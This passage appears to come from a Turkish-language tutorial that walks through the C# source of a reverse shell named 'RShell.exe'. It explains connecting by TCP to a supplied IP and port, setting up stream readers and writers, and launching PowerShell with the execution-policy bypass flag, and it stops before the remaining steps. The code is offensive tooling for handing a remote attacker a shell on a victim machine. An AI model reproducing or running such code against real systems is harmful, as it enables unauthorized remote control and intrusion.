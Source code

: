 - **`Main`**: C#'ta bir programın çalışmaya başladığı ana fonksiyondur.
- **`string[] args`**: Komut satırında girilen IP adresi ve port numarasını alır.


5. Giriş Kontrolü

```
if (args.Length != 2)

{
	Console.WriteLine("Usage: RShell.exe <IP> <Port>");
	return;
}
```

- **Amaç**: Kullanıcı IP adresi ve portu girmediyse, doğru kullanım şeklini ekrana yazdırır ve programı sonlandırır.
- **Örnek Kullanım**: `RShell.exe 192.168.1.10 4444`


6. TCP Bağlantısı Kurulması

```
TcpClient client = new TcpClient();
client.Connect(args[0], int.Parse(args[1]));
```


- **`TcpClient`**: Hedef sistemle TCP protokolü üzerinden bir bağlantı kurmak için kullanılır.
- **`args[0]`**: İlk argüman, bağlantı yapılacak IP adresidir.
- **`int.Parse(args[1])`**: İkinci argüman (port), bir sayı (integer) olarak yorumlanır.


7. Veri Akışı Hazırlığı

```
Stream stream = client.GetStream();
StreamReader streamReader = new StreamReader(stream);
streamWriter = new StreamWriter(stream);
```

- **`GetStream`**: TCP bağlantısında veri akışını alır.
- **`StreamReader`**: Hedeften gelen verileri okumak için kullanılır.
- **`StreamWriter`**: Hedefe veri göndermek için kullanılır.


8. PowerShell Process'inin Oluşturulması

```
Process p = new Process();

p.StartInfo.FileName = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe";

p.StartInfo.Arguments = "-ep bypass -nologo";
```

- **`Process`**: Hedef sistemde bir yeni **process** başlatmak için kullanılır.
- **`FileName`**: Çalıştırılacak dosyanın yolu. Burada **PowerShell** başlatılıyor.
- **`Arguments`**: PowerShell’e eklenmiş özel parametreler:
    - **`-ep bypass`**: Script çalıştırma politikalarını atlar (güvenlik önlemini baypas eder).
    - **`-nologo`**: PowerShell’in logosunu ve açılış mesajını gizler.
